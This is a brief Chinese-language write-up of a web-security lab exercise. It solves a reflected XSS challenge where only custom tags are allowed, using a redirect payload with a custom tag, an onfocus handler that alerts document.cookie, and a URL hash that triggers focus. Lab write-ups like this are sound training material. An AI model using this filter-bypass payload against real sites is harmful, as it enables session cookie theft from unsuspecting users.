

# 题意


本实验屏蔽了除custom标签以外的所有标签，需要注入带custom标签的xss攻击唤起。
# 解题思路
step1:

进入exploit server，将body设置成如下payload并点击保存和deliver即可。
```
<script>
location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
</script>
```

这段payload用ID x创建了一个custom标签，包括一个可以触发alert()的onfocus事件处理器，url结尾的hash在页面加载完毕之后会绑定该元素，从而调用这个payload.
# 知识点
